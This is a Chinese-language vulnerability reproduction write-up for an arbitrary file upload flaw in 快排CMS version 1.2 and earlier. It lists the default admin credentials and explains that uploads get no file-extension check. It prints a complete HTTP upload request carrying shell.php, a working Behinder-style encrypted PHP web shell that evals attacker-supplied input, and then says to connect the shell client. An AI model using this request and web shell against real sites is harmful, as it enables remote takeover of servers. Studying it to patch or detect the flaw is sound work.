 # 快排CMS 后台任意文件上传漏洞

## 漏洞描述

快排CMS 后台管理模块存在任意文件上传漏洞，攻击者通过漏洞可以控制服务器

## 漏洞影响

```
快排 CMS <= 1.2
```

## 环境搭建

https://gitee.com/qingzhanwang/kpcms

## 漏洞复现

登录页面如下, 默认账号密码为 **admin/admin**

```plain
http://xxx.xxx.xxx.xxx/admin.php/index/login.html
```



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202170921790.png)

源码中没有对上传文件的后缀检测

```plain
thinkphp/library/think/File.php
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202170922307.png)

任意找一处文件上传点

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202170922296.png)

上传抓包获取文件地址

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202170922533.png)

```plain
POST /admin.php/index/upload.html?dir=image HTTP/1.1
Host: 192.168.1.108:88
Content-Length: 935
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.108:88
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryYIt9WaQZiDMrwAVm
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/avif,http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/webp,http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.108:88/admin.php/config/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: admin_id=IphHb2Z%2FRG9gIXGA7HpPzQ%3D%3D; menu_show=0; menu_id=menu_22; url=%2Fadmin.php%2Fconfig%2Findex.html
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close

------WebKitFormBoundaryYIt9WaQZiDMrwAVm
Content-Disposition: form-data; name="localUrl"

C:\fakepath\shell.php
------WebKitFormBoundaryYIt9WaQZiDMrwAVm
Content-Disposition: form-data; name="imgFile"; filename="shell.php"
Content-Type: application/octet-stream

<?php
@error_reporting(0);
session_start();
    $key="e45e329feb5d925b";
	$_SESSION['k']=$key;
	$post=file_get_contents("php://input");
	if(!extension_loaded('openssl'))
	{
		$t="base64_"."decode";
		$post=$t($post."");
		
		for($i=0;$i<strlen($post);$i++) {
    			 $post[$i] = $post[$i]^$key[$i+1&15]; 
    			}
	}
	else
	{
		$post=openssl_decrypt($post, "AES128", $key);
	}
    $arr=explode('|',$post);
    $func=$arr[0];
    $params=$arr[1];
	class C{public function __invoke($p) {eval($p."");}}
    @call_user_func(new C(),$params);
?>

------WebKitFormBoundaryYIt9WaQZiDMrwAVm--
```

连接冰蝎木马即可

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202170922800.png)